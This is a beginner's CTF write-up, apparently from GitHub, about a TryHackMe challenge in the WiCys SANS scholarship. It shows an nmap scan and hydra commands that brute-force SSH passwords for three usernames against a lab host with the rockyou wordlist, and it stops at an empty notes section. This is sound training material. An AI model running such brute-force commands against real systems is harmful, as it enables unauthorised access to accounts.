 # WiCys SANS Security Scholarship
# Tier 2 CTF Challenge

## :green_book: Introduction

I have had the opportunity to be a part of the [WiCys Security Training Scholarship](https://www.wicys.org/benefits/security-training-scholarship/). I've passed the first stage, which was a CTF challenge. Only 500 out of 2000 people moved on to the next stage. 

Stage 2 consists of gamified learning through [TryHackMe](www.tryhackme.com). I went through the Intro to Cybersecurity, Pre Security, Web Fundamentals, Jr. Pen Tester, and TryHackMe's new Cybersecurity 101 training rooms. I am now entering the final portion of the stage, which is a CTF challenge hosted on TryHackMe.

I did not think about doing a write-up to keep track of my learning progress before. I actually only recently learned of doing write-ups through GitHub. I'll be taking notes of how I solve this CTF challenge, but I won't be providing the exact answers.

## :one: 1. Start the AttackBox.

I will be using the AttackBox built in to THM.

## :two: 2. (Easy) Bruteforce Me

### Level Hint: I forgot my credentials yet again... Can you guess them for me? I think my user was either pedro, admin or root.

### Solution:
Going to run an nmap scan. 
```
nmap -sV 10.10.0.186
```
looking for open ports, specifically 22 (SSH), 80 (HTTP)

Port 22 is open

  Going to try to use the rockyou.txt which is found in most kali linux machines. `usr/share/wordlists/rockyou.txt`

  Going to try to test each username individually using hydra.
```
hydra -l pedro -P /usr/share/wordlists/rockyou.txt ssh://10.10.0.186
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.0.186
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.10.0.186
```

### Notes:
